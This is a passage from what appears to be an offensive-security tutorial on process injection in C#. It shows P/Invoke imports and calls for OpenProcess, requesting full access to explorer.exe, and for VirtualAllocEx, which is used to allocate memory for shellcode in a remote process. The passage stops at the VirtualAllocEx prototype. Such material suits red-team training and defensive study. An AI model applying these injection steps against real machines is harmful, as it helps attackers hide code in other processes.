 > Listing 1 - Importing OpenProcess using DllImport and P/Invoke

Now that we have the correct syntax for the import statement, let's figure out the OpenProcess API's arguments from its [function prototype](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess), as shown below.

```
HANDLE OpenProcess(
  DWORD dwDesiredAccess,
  BOOL  bInheritHandle,
  DWORD dwProcessId
);
```

> Listing 2 - OpenProcess function prototype

The first argument (_dwDesiredAccess_) is the access right we want to obtain for the remote process. Its value will be checked against the security descriptor. In our case, we request the [PROCESS\_ALL\_ACCESS](https://docs.microsoft.com/en-gb/windows/win32/procthread/process-security-and-access-rights) process right, which will give us complete access to the **explorer.exe** process. PROCESS\_ALL\_ACCESS has a hexadecimal representation of 0x001F0FFF.

Next, we need to decide whether or not a created child process can inherit this handle (_bInheritHandle_). It doesn't matter in this case and we'll simply pass the value _false_. The final argument (_dwProcessId_) is the process ID of **explorer.exe**, which we can easily obtain through Process Explorer.

In this example, the process ID of **explorer.exe** is 4804, but this changes after each login and varies by machine.

We can now implement the call to _OpenProcess_, as shown:

```
IntPtr hProcess = OpenProcess(0x001F0FFF, false, 4804);
```

> Listing 3 - Calling OpenProcess against explorer.exe

Now that we have an open channel from one process to another, we must allocate memory for our shellcode using _VirtualAllocEx_, which requires us to perform another import. We'll use **www.pinvoke.net** again to find the import shown below.

```
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, 
  uint dwSize, uint flAllocationType, uint flProtect);
```

> Listing 4 - Importing VirtualAllocEx

To enumerate the _VirtualAllocEx_ arguments, we'll turn to the [function prototype](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex):

```
LPVOID VirtualAllocEx(
  HANDLE hProcess,
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```

